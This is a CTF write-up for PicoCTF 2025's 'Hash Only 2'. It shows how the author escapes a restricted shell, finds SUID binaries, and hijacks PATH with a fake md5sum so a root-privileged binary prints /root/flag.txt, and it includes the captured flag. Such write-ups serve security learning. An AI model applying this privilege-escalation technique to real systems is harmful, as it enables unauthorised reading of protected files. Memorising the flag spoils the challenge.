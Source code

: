 # Hash Only 2
This was a challenge listed in PicoCTF 2025.  It's listed as medium and categorized as a Binary Exploitation challenge.

## Description
The Description reads:
> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash.  
> If only it could just give you the actual content!

## Hints
There are no hints for this challenge.

# Solving
## My Thoughts
I felt similarly about this one as I did the first one.  It was more or less the same but with another random gimick that didn't mirror real world scenarios.

## Restricted Shell
You are greeted by an empty directory and the unfortunate message below when you try to cd out of the home directory:

![Sad](https://github.com/user-attachments/assets/3f83c77a-18ff-48d5-979d-a2be28b1304a)

We can run the below command to see what version of shell we're using to confirm that we are using a restricted version of bash:

``` bash
ctf-player@pico-chall$ ps -p $$
    PID TTY          TIME CMD
     32 pts/0    00:00:00 rbash
```

Alright so that's annoying.  We seem to be able to run 'ls' and 'find' without issue, so lets see if we can find the vulnerable executable with the below handy one-liner:

``` bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
```

This will find all files on the system with the suid (s) bit set in the user or group permission, when we run that we can see that our file is located at '/usr/local/bin/flaghasher'.

We can run flaghasher just fine, let's run strings on it to see what we get:

``` bash
ctf-player@pico-chall$ strings /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt....
/bin/bash -c 'md5sum /root/flag.txt'
Error: system() call returned non-zero value:
```

Neat so it's the exact same as the last one...let's update the path:

``` bash
ctf-player@pico-chall$ export PATH=/home/ctf-player:$PATH
-rbash: PATH: readonly variable
```

Uh oh...well if only I was able to escape from rbash somehow:

``` bash
ctf-player@pico-chall$ bash
ctf-player@challenge:~$
```

Oh...ok then.  We can now update the path and move around as much as we want.

``` bash
ctf-player@challenge:~$ export PATH=/home/ctf-player:$PATH
ctf-player@challenge:~$ echo 'cat /root/flag.txt' >> md5sum
ctf-player@challenge:~$ chmod +x md5sum
ctf-player@challenge:~$ flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_aeecb174}ctf-player@challenge:~$
```

Well that was definitely something, on to the next one.
